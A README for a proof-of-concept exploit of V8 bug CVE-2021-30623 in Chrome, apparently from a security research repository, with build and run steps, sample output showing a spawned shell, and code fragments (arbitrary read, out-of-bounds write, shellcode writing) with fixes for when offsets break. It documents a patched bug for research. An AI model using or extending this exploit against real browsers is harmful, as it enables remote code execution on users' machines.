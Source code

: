 ## Chrome in-the-wild bug CVE-2021-30623

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30623). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.3.345.16 (commit `632e6e7`), which is the version shipped with Chrome 93.0.4577.63, the one before the bug is fixed, on Ubuntu 20.04. I have not tested it on Chrome itself.

To test, check out `v8` at commit `632e6e7` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
instance: 81d42dd
elements: 804abd9
rwx page address: 22c70c88b000
intArray addr: 8105d79
intBackingStore: 56498ceb25e0
$
```

Shell code may need changing on other platforms.

The exploit is very reliable, however, when testing, I noticed that some offsets appear to be sensitive to small changes in the file (even adding comments may cause problem), which would cause the exploit to fail. This only happens when the file is modified and usually manifests itself with some garbage values of the addresses, for example:

```
instance: 81d42dd
elements: 800222d
rwx page address: 3ff199999999999a
intArray addr: 81067e1
intBackingStore: 3ff199999999999a
```

In the above, address of `rwx page` and `initBackingStore` are clearly incorrect. The root cause seems to be an incorrect `elements` store value. (`800222d` is not a valid value) This can usually be fixed by changing the following lines regarding the address of elements:

```
function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);  //<---- change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));          //<---- change to   oobWrite(i32tof(addr1,addr));
  return writeArr[0];
}
...
function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  console.log("intArray addr: " + intArrAddr.toString(16));
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  console.log("intBackingStore: " + ftoi(arbRead(intArrAddr + 0x20)).toString(16));

  [elements, addr1] = ftoi32(addrs[1]);              //<------ change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));        //<------ change this to oobWrite(i32tof(addr1, intArrAddr + 0x20));
  ...
}
...
var elementsAddr = ftoi32(addrs[1])[0];             //<------- change this to var elementsAddr = ftoi32(addrs[1])[1];
```

This, however, does not affect the reliability of the exploit as the offsets are stable as long as the file is fixed, but it may cause issues if the poc is modified. I do not know what causes this, but the exploit can probably be made more robust against this by matching patterns in memory instead of relying on fixed offsets.
